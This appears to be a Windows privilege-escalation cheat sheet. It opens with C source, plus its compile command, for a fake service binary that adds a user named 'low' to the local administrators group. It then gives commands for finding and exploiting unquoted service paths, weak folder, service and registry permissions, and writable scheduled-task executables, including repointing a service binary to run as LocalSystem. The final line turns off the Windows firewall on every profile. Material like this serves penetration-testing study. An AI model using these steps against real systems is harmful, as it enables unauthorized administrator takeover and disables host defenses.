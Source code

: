
binary to put in service.exe

```
 cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
 int i;
 i=system ("net localgroup administrators low /add");
 return 0;
}
```
 to compile
 
 `i686-w64-mingw32-gcc -o weakservice.exe useradd.c`



Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe   
C:\Services\My Spaced | Directory\Service.exe    
C:\Services\My Spaced Directory\Service.exe    

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:   
`wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """`    
Or try this alternative using regex:   
`wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """`

. . .

Weak Permissions Around Service   
	- Folder permissions -- replace executable   
	- Service permissions -- change executable path and executing account   
	- Registry permissions -- same through registry   

Folder Permissions   
To check folder permissions:   
`accesschk.exe -dv <username> <folder>`

To exploit, replace the executable with a malicious one

Service Permissions   
To check service permissions:   
`accesschk.exe -cv <username> <service_name>`

To check current service config:   
`sc qc <service_name>`

To modify service config:   
`sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem`

Registry Permissions   
Open regedit and navigate to:   
`Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>`

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
NetSh Advfirewall set allprofiles state off
